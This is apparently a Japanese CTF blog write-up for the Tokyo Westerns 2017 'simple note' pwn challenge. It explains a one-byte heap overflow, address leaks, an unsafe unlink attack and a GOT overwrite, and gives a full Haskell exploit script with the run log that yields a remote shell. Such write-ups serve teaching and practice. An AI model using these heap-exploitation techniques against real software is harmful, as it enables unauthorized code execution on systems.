




[Tokyo Westerns CTF 3rd 2017](https://ctftime.org/event/474) に1人チーム [poepoe](https://ctftime.org/team/32588) で参加してました。

- Welcome!! (Misc 11)
- [Just do it! (Pwn 23)](https://gist.github.com/db8dd0373c0a411333423d75ad53d7e7)
- [Palindromes Pairs - Coding Phase - (PPC 24)](https://gist.github.com/b9e72a87ee5a1e4b1cb89ce256019470)
- [Rev Rev Rev (Reverse 25)](https://gist.github.com/4930863a73f04c593771043ea966f27e)
- simple note (Pwn 86)

の 169 pts で 161 位。

simple note 解けたのがすごく嬉しかった。  
とはいえ時間掛けすぎているので、もう少しサクッと解けるようにしていきたいところ。

<!--more-->

## simple note <small>(Pwn 86)</small>

x86-64 の ELF。libc 配布有り。

    $ file simple_note-b5bdfa5fdb0fb070867ac0298a0b2a850f22e712513038d92c24c40664fac56b 
    simple_note-b5bdfa5fdb0fb070867ac0298a0b2a850f22e712513038d92c24c40664fac56b: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9976eff277e9b1fef5ebe60277ea7eb90a17625e, not stripped

    $ checksec -f simple_note-b5bdfa5fdb0fb070867ac0298a0b2a850f22e712513038d92c24c40664fac56b
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
    Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   Yes	0		2simple_note-b5bdfa5fdb0fb070867ac0298a0b2a850f22e712513038d92c24c40664fac56b

タイトルの通り、よくあるノート管理する系のやつ。

    $ ./simple_note-b5bdfa5fdb0fb070867ac0298a0b2a850f22e712513038d92c24c40664fac56b 
    ======================
    1. add a new note
    2. delete the note
    3. show the note
    4. edit the note
    5. exit
    ======================
    Your choice: 

主な機能はこんな感じ。

1. add a new note
    - 指定されたサイズ (`size > 0x7f`) の領域を`malloc`で確保する
    - 領域のアドレスを配列`list`の空いているところに格納する
    - 確保した領域に`read`で指定されたサイズ分読み込む
2. delete the note
    - 指定された領域を`free`する
    - 対応する`list`の要素を`NULL`にする
3. show the note
    - 指定された領域を**`puts`で表示する**
4. edit the note
    - 指定された領域に**`strlen`の返した文字数分`read`で上書きする**

"4. edit the note" で`strlen`した文字数も読めるので、バッファを全て埋めておけば**隣のチャンクの`size`が書き換え可能**になる。これを利用し、`free`済みチャンクの`size`書き換え ➡ unsafe unlink attack ➡ GOT overwrite という感じで解いた。

### アドレスのリーク

まず4つの領域を確保し (buffer 0~3、そのチャンクを chunk 0~3 とする)、buffer 2、buffer 0 の順で解放するとこんな感じになる。

```
 main_arena   +-----------------------------------------+
|          |  |  +--------------------+                 |
|    top   |<-+  |                    |                 |
|          |  |  |  +-chunk 0---+     |  +-chunk 2---+  |
|  bins[0] |-----|->| prev_size |<-+  +->| prev_size |  |
|  bins[1] |-----+  | size      |  |  |  | size      |  |
|          |  |     | fd        |-----+  | fd        |--+
|          |  +-----| bk        |  +-----| bk        |
|          |        +-----------+        +-----------+
```

この状態で同じサイズの領域を2つ`malloc`すると、chunk 2、chunk 0 の順で返される。ここで、`malloc`が返すアドレスはチャンクの`fd`に相当し、また`fd`や`bk`の値は`malloc`が返すときにクリアされるわけではないので、リークさせることが可能である。最終的な攻撃スクリプトでは、新たに確保する領域に 8 bytes の文字列を書き込み、続く`bk`の値を読むことで heap および libc のアドレスを求めた。

`main_arena`のシンボルはエクスポートされていないので、配布された libc からオフセットを求めるのは少し苦戦した。今回は [`__libc_mallinfo`](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=d20d5955db4d814b73a5b1829d1bc7874c94024d;hb=ab30899d880f9741a409cbc0d7a28399bdac21bf#l4686) のように`main_arena`のアドレスを参照している関数のディスアセンブル結果を見ることで求めたけど、もっといい感じの方法とかあったりするのだろうか...

    $ r2 -A libc.so.6-4cd1a422a9aafcdcb1931ac8c47336384554727f57a02c59806053a4693f1c71
    [0x00020950]> s sym.__libc_mallinfo 
    [0x00086e70]> pdf
                ;-- mallinfo:
    ┌ (fcn) sym.__libc_mallinfo 279
    │   sym.__libc_mallinfo ();
    │           ; var int local_8h @ rsp+0x8
    │           ; var int local_10h @ rsp+0x10
    │           ; var int local_18h @ rsp+0x18
    │           ; var int local_20h @ rsp+0x20
    │           0x00086e70      4156           push r14
    │           0x00086e72      4155           push r13
    │           0x00086e74      4989fe         mov r14, rdi
    │           0x00086e77      4154           push r12
    │           0x00086e79      55             push rbp
    │           0x00086e7a      53             push rbx
    │           0x00086e7b      4883ec30       sub rsp, 0x30               ; '0'
    │           0x00086e7f      8b05bfd23300   mov eax, dword [0x003c4144] ; [0x3c4144:4]=-1
    │           0x00086e85      85c0           test eax, eax
    │       ┌─< 0x00086e87      0f88f3000000   js 0x86f80
    │       │      ; JMP XREF from 0x00086f85 (sym.__libc_mallinfo)
    │      ┌──> 0x00086e8d      488d2d8cdc33.  lea rbp, qword 0x003c4b20    ; <- main_arena!!
    │      |│   0x00086e94      48c704240000.  mov qword [rsp], 0
    │      |│   0x00086e9c      48c744240800.  mov qword [local_8h], 0
    │      |│   0x00086ea5      48c744241000.  mov qword [local_10h], 0
    ...

### unsafe unlink attack

glibc は、よく知られた unlink attack を[こんな感じのチェック](https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=d20d5955db4d814b73a5b1829d1bc7874c94024d;hb=ab30899d880f9741a409cbc0d7a28399bdac21bf#l1414)をすることで防いでいる。

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
...
```

しかし、ある解放済みチャンク`P`の`fd`、`bk`が書き換え可能であり、かつアドレスが推測可能な領域`X`が`P`を指しているとき、

- `P->fd = X - 0x18`
- `P->bk = X - 0x10`

とすることで、このチェックを回避できる[^1]。これを unsafe unlink attack というらしい。

[^1]: 値は x86-64 の場合

さて、今回のプログラムは確保した領域を配列`list`で管理している。なんとかして`list`を書き換えることができれば、任意のアドレスの書き換えが可能になる。  
そこでまず、`list`の要素が**チャンクの先頭を指す**ような状況を作り出す。3つの領域 (0x88, 0xf8, 0x88 bytes、buffer 4~6 とする) を確保し、buffer 5 を解放しておく。



この状態で buffer 4 から 0x88 + 1 bytes 書き込み、chunk 5 の`size`を 0x101 から 0x1f1 に書き換える。



そのあと2つの領域 (0x108, 0x88 bytes、buffer 5, 7 とする) を確保すると、`size`を偽装したチャンクが切り分けられ、こんな感じになる。このとき、**buffer 6 を指している`list[6]`が chunk 7 の先頭も指すことになる**。



こうしてできた buffer 5 と buffer 7 を使って、unsafe unlink attack を行う。今回のプログラムでは解放済みの領域に書き込むことは難しいので、chunk 7 の`fd`、`bk`をセットし、さらに後ろのチャンクの`PREV_INUSE`ビットをクリアして解放されたことにする。



このあと buffer 5 の解放をすると、`list[6]`が`list[3]`を指すようになる。

この状態から buffer 6 に書き込むつもりで`list[3]`を`puts`の GOT に書き換え、続けて buffer 3 に書き込むつもりで`puts`の GOT を one-gadget RCE に向けることでシェルを取ることができた。

### exploit!

最終的なスクリプトと実行結果は次の通り。

問題サーバの libc (Ubuntu 16.04) ではチャンクの`size`と隣のチャンクの`prev_size`が一致するかのチェックをしていて刺さらなかったので、ダミーの`prev_size`を書き込む処理も追加している。(この関係で一部のインデックスが変わっている)  
僕には glibc のソースから該当する部分を見つけられなかったのだけど、どこにあるのだろう?

```haskell
#!/usr/bin/env stack
-- stack --stack-yaml ./stack.yaml runghc --package pwn

{-# LANGUAGE OverloadedStrings #-}

import           Control.Monad
import           Data.Bits
import qualified Data.ByteString.Char8 as BS
import           Data.Maybe
import           Data.Monoid           ((<>))
import           Numeric               (showHex)

-- https://github.com/Tosainu/pwn.hs
import           Pwn

showByteString :: (Show a) => a -> BS.ByteString
showByteString = BS.pack . show

main :: IO ()
main = do
  -- r <- remote "192.168.122.10" 4000
  -- let libc_main_arena' = 0x3a5620
  --     libc_one_gadget' = 0x41374

  -- r <- remote "172.17.0.2" 4000
  r <- remote "pwn1.chal.ctf.westerns.tokyo" 16317
  let libc_main_arena' = 0x003c4b20
      libc_one_gadget' = 0x4526a

  let list      = 0x006020c0

      puts_got  = 0x00602020

      addNote size str = do
        recvuntil r "Your choice: \n"
        sendline r "1"
        recvuntil r "Please input the size: \n"
        sendline r $ showByteString size
        recvuntil r "Please input your note: \n"
        send r str

      deleteNote idx = do
        recvuntil r "Your choice: \n"
        sendline r "2"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx

      showNote idx = do
        recvuntil r "Your choice: \n"
        sendline r "3"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx
        recvuntil r "Note: \n"
        buf <- recvuntil r "\n===="
        return $ BS.take (BS.length buf - BS.length "\n====") buf

      editNote idx str = do
        recvuntil r "Your choice: \n"
        sendline r "4"
        recvuntil r "Please input the index: \n"
        sendline r $ showByteString idx
        recvuntil r "Please input your note: \n"
        send r str

      exit = do
        recvuntil r "Your choice: \n"
        sendline r "5"

  info "allocate 0x88 bytes buffer x4 (buffer 0..3)"
  replicateM_ 4 $ addNote 0x88 $ BS.replicate 0x88 'A'

  info "free buffer 2 and buffer 0"
  mapM_ deleteNote [2, 0]

  info "allocate 0x88 bytes buffer x2 (buffer 0, buffer 2)"
  addNote 0x88 $ BS.replicate 9 'a'
  addNote 0x88 $ BS.replicate 8 'b'

  info "leak informations"
  leak1 <- BS.drop 8 <$> showNote 0
  leak2 <- BS.drop 8 <$> showNote 2
  let Just heap_base'     = u64 $ leak1 <> BS.replicate (8 - BS.length leak1) '\x00'
      Just main_arena_top = u64 $ leak2 <> BS.replicate (8 - BS.length leak2) '\x00'

      heap_base   = heap_base' .&. complement 0xff
      main_arena  = main_arena_top - 0x58
      libc_base   = main_arena - libc_main_arena'

  success $ "  heap_base:  0x" <> showHex heap_base ""
  success $ "  main_arena: 0x" <> showHex main_arena ""
  success $ "  libc_base:  0x" <> showHex libc_base ""

  -------------------------------------------------------------------

  info "allocate [0x88, 0xf8, 0x88, 0x88] bytes buffer (buffer 4..7)"
  forM_ [0x88, 0xf8, 0x88, 0x88] $ \size -> addNote size $ BS.replicate size 'A'

  info "free buffer 5"
  deleteNote 5

  info "overwrite chunk 5's size"
  editNote 4 $ BS.replicate 0x88 'c' <> "\xf1"

  info "write fake prev_size via buffer 7"
  let buf = BS.concat $ catMaybes
            [ Just $ BS.replicate 0x50 'd'
            , p64 0x1f0
            ]
  editNote 7 buf

  info "allocate [0x108, 0x88] bytes buffer (buffer 5, buffer 8)"
  forM_ [0x108, 0x88] $ \size -> addNote size $ BS.replicate size 'A'

  info "set chunk 8's fd and bk, clear prev_inuse flag"
  let buf = BS.concat $ catMaybes
            [ p64 $ list + 0x18   -- fd
            , p64 $ list + 0x20   -- bk
            , Just $ BS.replicate 0x70 'd'
            , p64 0x90            -- prev_size
            , Just "\x50"         -- size
            ]
  editNote 8 buf

  info "free buffer 5 (unsafe unlink attack!)"
  deleteNote 5

  -- 1: x/16xg 0x006020c0
  -- 0x6020c0 <list>:        0x0000000000b83130      0x0000000000b830a0
  -- 0x6020d0 <list+16>:     0x0000000000b83010      0x0000000000b831c0
  -- 0x6020e0 <list+32>:     0x0000000000b83250      0x0000000000000000
  -- 0x6020f0 <list+48>:     0x00000000006020d8      0x0000000000b833f0
  -- 0x602100 <list+64>:     0x0000000000000000      0x0000000000000000
  -- 0x602110 <list+80>:     0x0000000000000000      0x0000000000000000
  -- 0x602120 <list+96>:     0x0000000000000000      0x0000000000000000
  -- 0x602130 <list+112>:    0x0000000000000000      0x0000000000000000

  info "overwrite list[3] to puts@got via buffer 6"
  let heap_addr_len = BS.length leak1
      libc_addr_len = BS.length leak2
  editNote 6 $ BS.take heap_addr_len $ fromJust $ p64 puts_got

  info "overwrite puts@got to one-gadget-RCE via buffer 3"
  editNote 3 $ BS.take libc_addr_len $ fromJust $ p64 $ libc_base + libc_one_gadget'

  interactive r
```

    $ ./exploit.hs
    [x] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 16317
    [+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 16317: Done
    [*] allocate 0x88 bytes buffer x4 (buffer 0..3)
    [*] free buffer 2 and buffer 0
    [*] allocate 0x88 bytes buffer x2 (buffer 0, buffer 2)
    [*] leak informations
    [+]   heap_base:  0x1181000
    [+]   main_arena: 0x7fd044fcfb20
    [+]   libc_base:  0x7fd044c0b000
    [*] allocate [0x88, 0xf8, 0x88, 0x88] bytes buffer (buffer 4..7)
    [*] free buffer 5
    [*] overwrite chunk 5's size
    [*] write fake prev_size via buffer 7
    [*] allocate [0x108, 0x88] bytes buffer (buffer 5, buffer 8)
    [*] set chunk 8's fd and bk, clear prev_inuse flag
    [*] free buffer 5 (unsafe unlink attack!)
    [*] overwrite list[3] to puts@got via buffer 6
    [*] overwrite puts@got to one-gadget-RCE via buffer 3
    [*] Entering interactive mode
    id
    uid=16317069 gid=16317(p16317) groups=16317(p16317)
    ls
    flag
    launch.sh
    simple_note
    cat flag
    TWCTF{unl1nk_4774ck_15_u53fu1_73chn1qu3}
    [*] Leaving interactive mode

